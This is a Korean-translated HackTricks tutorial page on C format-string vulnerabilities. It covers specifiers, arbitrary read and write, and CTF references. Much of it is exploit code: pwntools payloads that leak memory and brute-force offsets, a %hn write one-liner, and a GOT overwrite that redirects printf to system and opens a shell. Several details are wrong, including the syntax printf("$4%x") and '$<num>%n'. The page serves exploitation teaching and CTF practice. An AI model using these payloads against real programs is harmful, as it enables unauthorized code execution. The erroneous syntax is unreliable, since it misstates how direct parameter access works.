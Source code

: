 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

C에서 **`printf`**는 문자열을 **출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **형식 지정자가 포함된 원시 텍스트**입니다. 이 원시 텍스트의 **형식 지정자**를 **대체**할 **값**은 **다음 매개변수**로 기대됩니다.

다른 취약한 함수로는 **`sprintf()`**와 **`fprintf()`**가 있습니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 사용될 때** 발생합니다. 공격자는 **printf 형식** 문자열 기능을 악용하여 **특별한 입력**을 만들어 **읽기 및 쓰기 가능한 모든 주소의 데이터를 읽고 쓸 수** 있습니다. 이렇게 해서 **임의 코드를 실행**할 수 있습니다.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:** 

* 취약한 예시:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 인수가 누락된 경우:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 취약점:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **포인터 접근**

형식 **`%<n>$x`**에서 `n`은 숫자로, printf에게 스택에서 n번째 매개변수를 선택하도록 지시합니다. 따라서 printf를 사용하여 스택에서 4번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째부터 네 번째 매개변수까지 읽을 수 있습니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("$4%x")
```
and read directly the forth.

공격자가 `pr`**`intf` 매개변수를 제어한다는 점에 유의하세요. 이는 기본적으로** 그의 입력이 `printf`가 호출될 때 스택에 있을 것임을 의미하며, 이는 그가 스택에 특정 메모리 주소를 쓸 수 있음을 의미합니다.

{% hint style="danger" %}
이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`가 이를 접근하게 만들 수 있습니다**. 다음 섹션에서는 이 동작을 사용하는 방법에 대해 설명합니다.
{% endhint %}

## **임의 읽기**

형식 지정자 **`%n$s`**를 사용하여 **`printf`**가 **n 위치**에 있는 **주소**를 가져오고 **문자열처럼 출력**할 수 있습니다(0x00이 발견될 때까지 출력). 따라서 바이너리의 기본 주소가 **`0x8048000`**이고, 사용자 입력이 스택의 4번째 위치에서 시작된다는 것을 알고 있다면, 다음과 같이 바이너리의 시작 부분을 출력할 수 있습니다:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
입력의 시작 부분에 0x8048000 주소를 넣을 수 없다는 점에 유의하세요. 문자열은 해당 주소의 끝에 0x00에서 잘리기 때문입니다.
{% endhint %}

### 오프셋 찾기

입력의 오프셋을 찾기 위해 4 또는 8 바이트(`0x41414141`)를 보낸 다음 **`%1$x`**를 추가하고 **값을 증가시켜** `A's`를 검색할 수 있습니다.

<details>

<summary>브루트 포스 printf 오프셋</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 얼마나 유용한가

임의 읽기는 다음과 같은 용도로 유용할 수 있습니다:

* **메모리에서** **바이너리**를 **덤프**하기
* **민감한** **정보**가 저장된 메모리의 특정 부분에 **접근**하기 (예: [**CTF 챌린지**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)에서와 같이 카나리, 암호화 키 또는 사용자 정의 비밀번호)

## **임의 쓰기**

포맷터 **`$<num>%n`**은 **지정된 주소**에 **쓰기 바이트 수**를 **기록**합니다. 공격자가 printf를 사용하여 원하는 만큼의 문자를 쓸 수 있다면, 그는 **`$<num>%n`**을 사용하여 임의의 주소에 임의의 숫자를 쓸 수 있게 됩니다.

다행히도, 숫자 9999를 쓰기 위해 입력에 9999개의 "A"를 추가할 필요는 없으며, 대신 포맷터 **`%.<num-write>%<num>$n`**을 사용하여 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소**에 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
그러나 일반적으로 `0x08049724`와 같은 주소를 쓰기 위해 (한 번에 쓰기에는 엄청난 숫자입니다), **`$hn`**이 **`$n`** 대신 사용됩니다. 이렇게 하면 **2바이트만 쓸 수 있습니다**. 따라서 이 작업은 주소의 가장 높은 2바이트와 가장 낮은 2바이트에 대해 각각 두 번 수행됩니다.

따라서 이 취약점은 **임의의 주소에 무엇이든 쓸 수 있게** 합니다.

이 예제에서 목표는 **나중에 호출될** **함수**의 **주소**를 **덮어쓰는** 것입니다. 이는 다른 임의 쓰기를 악용하여 exec 기술을 사용할 수 있습니다:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

우리는 **사용자**로부터 **인수**를 **받는** **함수**를 **덮어쓰고**, 이를 **`system`** **함수**를 가리키도록 할 것입니다.\
언급했듯이 주소를 쓰기 위해 일반적으로 2단계가 필요합니다: 먼저 주소의 2바이트를 쓰고, 그 다음에 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**이 사용됩니다.

* **HOB**는 주소의 2개의 높은 바이트를 호출합니다.
* **LOB**는 주소의 2개의 낮은 바이트를 호출합니다.

그런 다음, 포맷 문자열이 작동하는 방식 때문에 **먼저 가장 작은** \[HOB, LOB]를 쓰고 그 다음에 다른 것을 써야 합니다.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 템플릿

이러한 종류의 취약점을 위한 익스플로잇을 준비할 **템플릿**을 다음에서 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

또는 [**여기**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)에서 이 기본 예제를 확인하세요:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

형식 문자열 취약점의 쓰기 작업을 악용하여 **스택의 주소에 쓰기** 및 **버퍼 오버플로우** 유형의 취약점을 악용할 수 있습니다.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32비트, no relro, no canary, nx, no pie, 스택에서 플래그를 누출하기 위한 형식 문자열의 기본 사용 (실행 흐름을 변경할 필요 없음)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32비트, relro, no canary, nx, no pie, win 함수로 `fflush` 주소를 덮어쓰는 형식 문자열 (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32비트, relro, no canary, nx, no pie, `.fini_array`에 있는 main 내부의 주소에 쓰기 위한 형식 문자열 (흐름이 한 번 더 루프하도록) 및 `strlen`을 가리키는 GOT 테이블의 `system` 주소에 쓰기. 흐름이 main으로 돌아가면, `strlen`이 사용자 입력과 함께 실행되고 `system`을 가리키면, 전달된 명령이 실행됩니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
